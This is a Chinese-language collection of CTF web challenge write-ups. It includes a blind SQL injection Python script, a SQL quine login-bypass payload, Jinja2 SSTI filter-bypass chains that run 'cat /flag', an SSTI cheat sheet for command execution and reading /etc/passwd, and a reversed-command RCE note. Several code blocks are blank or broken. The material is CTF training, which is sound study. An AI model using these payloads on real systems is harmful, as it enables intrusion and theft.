

# [CISCN 2019华北Day2]Web1
>知识点：bool盲注

随便输入几个发现有过滤

485长度的都是被过滤掉的
然后寻找注入点


发现是盲注
```bash
    利用()绕过空格过滤

    该payload最内层，mid表示从flag列的第一个字符开始截取长度为1的子字符串

    第二层ascii用于判断截取出来的子字符串的ascii码值是否为78（即N，flag格式为NSSCTF{}）

    若是，则页面回显id=1的页面
```
脚本:
```python
import requests #requests: 用于发送HTTP请求，目的是通过HTTP POST方法与目标网站交互。
import string #提供了一个包含所有可打印字符的字符串，用于生成可能的字符集。

def blind_injection(url):
	flag = ''
	strings = string.printable # 可打印字符集，包含字母、数字、标点符号等
	for num in range(1,60):#假设 flag 的长度不超过 60 个字符（num 表示字符位置）。
		for i in strings:#遍历所有可打印字符，尝试通过SQL查询来猜测对应位置的字符
			payload = '(select(ascii(mid(flag,{0},1))={1})from(flag))'.format(num,ord(i))
            #payload 是构造的SQL查询语句，使用 mid(flag,{0},1) 来获取 flag 在第 num 位置的字符。ascii(mid(flag,{0},1))={1} 是通过 ASCII 值来判断字符是否匹配。

{0} 是 num，即当前正在猜测的字符位置；{1} 是 ord(i)，即字符 i 的ASCII值。

例如，当 num=1 和 i='A' 时，构造的SQL负载可能是：(select(ascii(mid(flag,1,1))=65)from(flag))，65 是字母 'A' 的ASCII值
			post_data = {"id":payload}
			res = requests.post(url=url,data=post_data)
			if 'Hello' in res.text:
				flag += i
				print(flag)
			else:
				continue
	print(flag)


if __name__ == '__main__':
	url = 'http://node4.anna.nssctf.cn:28911/index.php'
	blind_injection(url)

```
# [第五空间 2021]yet_another_mysql_injection

>qunine注入

后端代码
```php
<?php
include_once("lib.php");
function alertMes($mes,$url){
    die("<script>alert('{$mes}');location.href='{$url}';</script>");
}

function checkSql($s) {
    if(preg_match("/regexp|between|in|flag|=|>|<|and|\||right|left|reverse|update|extractvalue|floor|substr|&|;|\\\$|0x|sleep|\ /i",$s)){
        alertMes('hacker', 'index.php');
    }
}

if (isset($_POST['username']) && $_POST['username'] != '' && isset($_POST['password']) && $_POST['password'] != '') {
    $username=$_POST['username'];
    $password=$_POST['password'];
    if ($username !== 'admin') {
        alertMes('only admin can login', 'index.php');
    }
    checkSql($password);
    $sql="SELECT password FROM users WHERE username='admin' and password='$password';";
    $user_result=mysqli_query($con,$sql);
    $row = mysqli_fetch_array($user_result);
    if (!$row) {
        alertMes("something wrong",'index.php');
    }
    if ($row['password'] === $password) {
        die($FLAG);
    } else {
    alertMes("wrong password",'index.php');
  }
}

if(isset($_GET['source'])){
  show_source(__FILE__);
  die;
}
?>
<!-- /?source -->
<html>
    <body>
        <form action="/index.php" method="post">
            <input type="text" name="username" placeholder="账号"><br/>
            <input type="password" name="password" placeholder="密码"><br/>
            <input type="submit" / value="登录">
        </form>
    </body>
</html>
```
可以看到，用户只能是admin，而又要求输入的password要等于表中的password，而又过滤了很多东西，导致报错，盲注，联合，堆叠都不行
通过分析发现只有输入正确的密码才能得到FLAG，但是这张表其实是一张空表，所以爆破密码这条路走不通。
那就只有一个办法，就是构造一个输入输出完全一致的语句，就可以绕过限制并得到FLAG
大佬的payload
```bash
1'/**/union/**/select/**/replace(replace('1"/**/union/**/select/**/replace(replace(".",char(34),char(39)),char(46),".")#',char(34),char(39)),char(46),'1"/**/union/**/select/**/replace(replace(".",char(34),char(39)),char(46),".")#')#
```
1.首先先了解一下replace()函数

    replace(object,search,replace)
    把object对象中出现的的search全部替换成replace

看个例子

```bash
select replace(".",char(46),".");                 # char(46)就是.
+---------------------------+
| replace(".",char(46),".") |
+---------------------------+
| .                         |
+---------------------------+
```
发现
2.如何让输入输出一致呢？

上面的例子用.替换object里的.，最终返回了一个.，那如果我们将object写成replace(".",char(46),".")会有什么变化呢？
```bash
mysql> select replace(   'replace(".",char(46),".")'   ,   char(46)   ,   '.'   );
+---------------------------------------------------+
| replace('replace(".",char(46),".")',char(46),'.') |
+---------------------------------------------------+
| replace(".",char(46),".")                         |
+---------------------------------------------------+
```

 
结果返回了replace(".",char(46),".")这个东西，即object不变，但还是没有达到我们预期的效果怎么办，这时候我们将第三个参数也改成replace(".",char(46),".")
```bash
mysql> select replace('replace(".",char(46),".")',char(46),'replace(".",char(46),".")');
+---------------------------------------------------------------------------+
| replace('replace(".",char(46),".")',char(46),'replace(".",char(46),".")') |   #单引号
+---------------------------------------------------------------------------+
| replace("replace(".",char(46),".")",char(46),"replace(".",char(46),".")") |   #双引号
+---------------------------------------------------------------------------+
```

有点类似套娃的感觉。先分析一下这段sql语句

select replace('replace(".",char(46),".")',char(46),'replace(".",char(46),".")');

replace函数的三个参数分别是

'replace(".",char(46),".")'
char(46)
'replace(".",char(46),".")'

这个语句的意思是用第三个参数替换第一个参数里面的.并返回替换后的第一个参数

这样就明白了为什么返回的是replace("replace(".",char(46),".")",char(46),"replace(".",char(46),".")")


那么这样是否就达到了我们输入输出一致的目的呢，答案肯定是还没有。细心点就会发现输入与输出在单双引号上有细微的不同

3.解决单双引号不同的问题

有了上面的经验后，我们这样考虑，如果先将双引号替换成单引号是不是就可以解决引号不同的问题了。实现方法无非就是在套一层replace
```bash
mysql> select replace(replace('"."',char(34),char(39)),char(46),".");    # 先执行内层replace
+--------------------------------------------------------+
| replace(replace('"."',char(34),char(39)),char(46),".") |
+--------------------------------------------------------+
| '.'                                                    |
+--------------------------------------------------------+
1 row in set (0.00 sec)
```

这样就可以将我们的双引号替换成单引号，此时我们继续沿用上面的思路，构造输入输出相同的语句
```bash
mysql> select replace(

replace('replace(replace(".",char(34),char(39)),char(46),".")',char(34),char(39)),
char(46),
'replace(replace(".",char(34),char(39)),char(46),".")'

);
+------------------------------------------------------------------------------------------+
replace(replace('replace(replace(".",char(34),char(39)),char(46),".")',char(34),char(39)),char(46),'replace(replace(".",char(34),char(39)),char(46),".")') 
+------------------------------------------------------------------------------------------+
replace(replace('replace(replace(".",char(34),char(39)),char(46),".")',char(34),char(39)),char(46),'replace(replace(".",char(34),char(39)),char(46),".")') 
+------------------------------------------------------------------------------------------+
1 row in set (0.00 sec)
```
```
Quine基本形式：

replace(replace(‘str’,char(34),char(39)),char(46),‘str’)

先将str里的双引号替换成单引号，再用str替换str里的.

str基本形式（可以理解成上面的"."）

replace(replace(".",char(34),char(39)),char(46),".")

完整的Quine就是Quine基本形式+str基本形式
```


回过头来再看我们的payload

1'/**/union/**/select/**/replace(replace('',char(34),char(39)),char(46),'')#
可理解成我们的Quine的基本形式

1"/**/union/**/select/**/replace(replace(".",char(34),char(39)),char(46),".")#
这个就是我们str的基本形式

先将str里的双引号替换成单引号
1'/**/union/**/select/**/replace(replace('.',char(34),char(39)),char(46),'.')#
最终通过来回替换的形式达到了我们的目的

现在就明白了为什么我们的内层replace里面有一个单独的’’

Quine形式多变，修改的时候切记str对应也要修改

# [GDOUCTF 2023]<ez_ze>

>ssti


这个页面可以猜测是ssti,尝试{{7*7}}，结果被过滤了
可以通过这个语句来查询是否存在ssti
```bash
result
 
 
解释一下 如果条件里为真 就输出 result 否则不输出
 
修改一下
yes
 
第二种
 

 
通过输出123来判断
```

然后我们首先确定一下我们需要的payload
```bash
(lipsum|attr("__globals__").get("os").popen("cat /flag").read()
```
这个时候我们需要获取_通过lipsum|string|list

这个时候可以通过 pop方法
 获取_
先需要获取pop

pop方法可以根据索引值来删除列中的某个元素并将该元素返回值返回。
```

```
获得_
```











 
然后我们数 可以发现 _ 在24 所以我们索引即可
 











```

然后获得glboals
```
name=












```

获取os
首先需要获取get


然后
然后我们可以获取os



被过滤了
```
















```
获取chr
首先要获取__builtins__
```  
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
```
获取chr

```     
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    


```

然后拼接获得命令
```

?name=











{%set%20get=dict(get=a)|join%}


{%set command=char(five*five*four-one)%2bchar(five*five*four-three)%2bchar(four*five*six-four)%2bchar(four*eight)%2bchar(six*eight-one)%2bchar(three*six*six-six)%2bchar(three*six*six)%2bchar(five*five*four-three)%2bchar(three*six*six-five)%}

```
获取read
```
name=
```
最后就是拼接执行命令
```
name=
















{%set command=char(five*five*four-one)%2bchar(five*five*four-three)%2bchar(four*five*six-four)%2bchar(four*eight)%2bchar(six*eight-one)%2bchar(three*six*six-six)%2bchar(three*six*six)%2bchar(five*five*four-three)%2bchar(three*six*six-five)%}

```
这是最麻烦的写法
正常的
```
   
 

 

 

 

 

 

 

 

 

 

 
这里原型是
 
lipsum.__globals__.getitem[os].popen(cat flag).read()
 
类似于这种
```

# [安洵杯 2020]Normal SSTI
>jianjian


ssti学习：
```
SSTI 漏洞概述

SSTI（Server-Side Template Injection，服务器端模板注入），主要发生在 Web 应用使用模板引擎动态渲染页面内容的场景中。当应用程序未对用户输入的内容进行严格过滤或转义，直接将用户可控数据嵌入到模板中进行解析渲染时，攻击者就可能通过构造恶意输入来注入模板代码，从而执行任意命令、读取敏感文件或获取服务器权限。

模板引擎的设计初衷是将页面逻辑与数据展示分离，提高开发效率。常见的模板引擎包括 Python 的 Jinja2、Django Template，PHP 的 Smarty、Twig，Java 的 FreeMarker、Velocity，Node.js 的 EJS、Handlebars 等。
SSTI 漏洞成因

SSTI 漏洞的核心成因是用户输入未经过安全处理直接嵌入模板，具体可分为以下几种情况：

    直接拼接用户输入到模板字符串：例如在 Python 中使用render_template_string("Hello, %s" % user_input)，若user_input包含模板语法，会被引擎解析执行。
    模板路径 / 名称可控：攻击者通过控制模板文件路径，加载恶意模板文件或系统敏感文件（如/etc/passwd）。
    模板变量赋值不当：将用户输入直接作为模板变量的值，且变量在模板中被以执行代码的方式调用（如{{ user_input }}在某些引擎中可执行表达式）。

使用

    输入{{ 7*7 }}，若页面返回49，说明模板引擎执行了表达式，可能存在漏洞。
    输入{{ config }}（Jinja2），若返回配置信息，证明漏洞存在
    读取配置文件：{{ config.items() }}（Jinja2）可获取应用配置，包括数据库账号密码等。
    读取系统文件：在支持文件操作的引擎中，可通过{{ ''.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read() }}（Jinja2）读取/etc/passwd。
控制结构  可以声明变量，也可以执行语句
变量取值 {{ }} 用于将表达式打印到模板输出
注释块 {# #} 用于注释

__class__
  查看对象所在的类
__mro__
  查看继承关系和调用顺序，返回元组
__base__
  返回基类
__bases__
  返回基类元组
__subclasses__()
  返回子类列表
__init__
  调用初始化函数，可以用来跳到__globals__
__globals__
  返回函数所在的全局命名空间所定义的全局变量，返回字典
__builtins__
  返回内建内建名称空间字典
__dic__
  返回类的静态函数、类函数、普通函数、全局变量以及一些内置的属性
__getitem__()
  调用字典中的键值，比如a['b']，就是a.__getitem__('b')
__import__
  动态加载类和函数，也就是导入模块，经常用于导入os模块，__import__('os').popen('ls').read()]
__str__()
  返回描写这个对象的字符串，就是打印出来。

```
常规
```
# <class 'subprocess.Popen'>
{{''.__class__.__base__.__subclasses__()[258]('ls',shell=True,stdout=-1).communicate()[0].strip()}}

# <class '_frozen_importlib._ModuleLock'>
{{''.__class__.__base__.__subclasses__()[75].__init__.__globals__['__builtins__']['__import__']('os').listdir('/')}}

# <class '_frozen_importlib.BuiltinImporter'>
{{().__class__.__base__.__subclasses__()[80]["load_module"]("os").system("ls")}}

# <class '_frozen_importlib_external.FileLoader'>
{{().__class__.__base__.__subclasses__()[91].get_data(0, "app.py")}}

# <class 'click.utils.LazyFile'>
## 命令执行
{{().__class__.__base__.__subclasses__().__getitem__(475).__init__.__globals__['os'].popen('ls').read()}}
## 读文件
{{().__class__.__base__.__subclasses__().__getitem__(475)('flag.txt').read()}}

# <class 'warnings.catch_warnings'>
{{ c.__init__.__globals__['__builtins__'].popen('ls').read() }}
{{"".__class__.__base__.__subclasses__()[189].__init__.__globals__['__builtins__'].popen('ls').read()}}

```
根据题目提示，要用/test/?url=来进行ssti攻击，测试{{7*7}}，发现被过滤了，测试,这个没有被过滤


# [HZNUCTF 2023 preliminary]guessguessguess

>rce


先输入一个ls发现返回sl，那就是倒置了，那可以尝试一下
)'/ sl'(metsys，发现没有任何反应
看wp说是ping
ping一个127.0.0.1

发现猜猜猜没了，使用管道符看看目录
/ sl||1.0.0.721
没有发现目录

说是在环境变量中，就是可以看看env